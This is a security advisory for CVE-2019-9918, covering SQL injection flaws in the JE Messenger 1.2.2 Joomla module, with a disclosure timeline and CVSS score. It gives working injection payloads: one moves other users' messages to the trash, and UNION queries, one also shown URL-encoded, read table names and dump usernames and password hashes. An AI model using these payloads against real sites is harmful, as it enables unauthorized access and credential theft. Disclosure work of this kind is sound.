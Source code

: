 # CVE-2019-9918

## Affected software
JE Messenger 1.2.2 Joomla Module by Harmis Technology.

## What: SQL-Injection
Multiple SQL-Injections allows reading or writing arbitrary information from all tables/to specific tables of the database/ of the module. 

## Meta
During the preparation of one of our incident response exercises, one of our CERT Members (Tobias Roggenhofer) detected an unexpected behavior of the Joomla Module JE Messenger of Harmis Technology in its current version (1.2.2). Due to this behavior, we started analyzing this module and detected several vulnerabilities.

We informed the software-vendor that we have detected vulnerabilities in their module. Sadly a secure communication to share the details could not be established.

Since we still want to disclose our findings in a responsible way, we only announced the type of vulnerability and the associated risk in the first step on the 2019-03-29. This gives the software vendor time to patch the plugin or user the time to move to another plugin or temporarily disable it. Since 2019-05-01 we've published more details including some payloads.

## CVSS
CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N : 8.5 (High)

## Detailed description
The module has no protection against SQL-Injections. It passes the user input directly in the SQL-Querys. So each of them is potentially vulnerable to SQL-Injections. We found five concrete injection-points, which can be abused by an attacker. 

### 1: Move foreign messages to trash
An SQL-Injection vulnerability inside the delete function of the inbox allows any user to move arbitrary message from the inbox into the trash.

In this example we an message from user2 to user3 inside the inbox of user3. By hovering over the message we see in the link the parameter 'cid[0]', which has the value 60. This means this message has the internal message id 60. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.1.png)

In this example user1 will now delete this message from the inbox of user3. Therefore we selects one of his messages for deletion, but before we press the "Delete" button we start an interception proxy to intercept the request. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.2.png)
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.3.png)

Now we are able to inject some SQL code inside the query. To move the message of user3 with the id 60 we can use the following example code:
```
'60') or id IN ('60'
```
This code has to be inserted in the parameter 'cid%5B%5D='. 
Note: In general the attack needs to exploit other vulnerabilities to get the right message id, if he wants to move a specific and not a random one. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.4.png)

After sending the manipulated query the message 60 is now in the Trash folder of user3
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.4.png)

### 2: Delete foreign messages from the trash folder 
An SQL-Injection vulnerability inside the delete function of the Trash allows any user to delete arbitrary message from the trash. This vulnerability is almost identical to the first SQL-Injection. The steps how to inject and the payload are all the same. The only difference is, that you have to call the delete function in the trash instead of that one in the inbox.

### 3: Read from the database (ajax-lookup-query)
There is an SQL-Injection vulnerability in the compose page, which allows an attacker to read arbitrary information from the local database. The vulnerability is located in the backend for an ajax function, that automatically searches suitable users based on the input of the "to" field. 

In this example we show how this vulnerability can be abused to read out the local usernames and password hashes.
At first we use the vulnerability to read out the name of the usertable, because in general we don't know the individual table-prefix of this joomla page. 
Therefore we start an interception-proxy and type one letter inside the "To" field. This triggers the ajax function and sends the request shown in the picture below. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_3.1.png)

Now we replace the value of the parameter 'input' with the following injection code
```
Irrelevant-what-is-standing-here') union (SELECT '1', '2', TABLE_NAME, '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16' FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '_____users' OR TABLE_NAME LIKE '______users') union (SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16
```
Because this is an URL-Parameter, we need to char encode the payload first. 
```
%49%72%72%65%6c%65%76%61%6e%74%2d%77%68%61%74%2d%69%73%2d%73%74%61%6e%64%69%6e%67%2d%68%65%72%65%27%29%20%75%6e%69%6f%6e%20%28%53%45%4c%45%43%54%20%27%31%27%2c%20%27%32%27%2c%20%54%41%42%4c%45%5f%4e%41%4d%45%2c%20%27%34%27%2c%20%27%35%27%2c%20%27%36%27%2c%20%27%37%27%2c%20%27%38%27%2c%20%27%39%27%2c%20%27%31%30%27%2c%20%27%31%31%27%2c%20%27%31%32%27%2c%20%27%31%33%27%2c%20%27%31%34%27%2c%20%27%31%35%27%2c%20%27%31%36%27%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%20%57%48%45%52%45%20%54%41%42%4c%45%5f%4e%41%4d%45%20%4c%49%4b%45%20%27%5f%5f%5f%5f%5f%75%73%65%72%73%27%20%4f%52%20%54%41%42%4c%45%5f%4e%41%4d%45%20%4c%49%4b%45%20%27%5f%5f%5f%5f%5f%5f%75%73%65%72%73%27%29%20%75%6e%69%6f%6e%20%28%53%45%4c%45%43%54%20%27%31%27%2c%20%27%32%27%2c%20%27%33%27%2c%20%27%34%27%2c%20%27%35%27%2c%20%27%36%27%2c%20%27%37%27%2c%20%27%38%27%2c%20%27%39%27%2c%20%27%31%30%27%2c%20%27%31%31%27%2c%20%27%31%32%27%2c%20%27%31%33%27%2c%20%27%31%34%27%2c%20%27%31%35%27%2c%20%27%31%36
```
![Injection in the request](/CVEs/CVE-2019-9918_3.2.png)

The tablename will now be shown in the gui for a short time or you can extract it directly from the response
![Tablename in the gui](/CVEs/CVE-2019-9918_3.3.png)
![Tablename in the response](/CVEs/CVE-2019-9918_3.3.png)

With the knowledge of the tablename we can now extract the usernames and password hashes, with the same method and the following payload. (replace the [Prefix] in the query. in our case it is 'ecsbi')
```
Irrelevant-what-is-standing-here') union (SELECT '1', '2', username, password, '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16' FROM [Prefix]_users) union (SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16
```
![Injection in the request](/CVEs/CVE-2019-9918_3.5.png)
![Credentials in the response](/CVEs/CVE-2019-9918_3.3.png)

### 4: Insert message with information from the database
Will be added later.

### 5: Blind injection, read via update command
Will be added later.


## Timeline
* 2019-03-05: Contacted vendor, request for encrypted communication
* 2019-03-06: Request from vendor to tell affected product (no encryption)
* 2019-03-06: Provided Module-Name (no encryption)
* 2019-03-06: Further contact with vendor, sadly still no encryption
* 2019-03-13: Reminder, deadline set for 18th of March for a response (no encryption)
* 2019-03-19: No response, reserving CVEs, planned release on 2019-04-01
* 2019-03-22: MITRE informs us that 5 CVEs are reserved 
* 2019-03-29: Publishing basic information, informing MITRE and vendor
* 2019-05-01: Publishing full vulnerability details
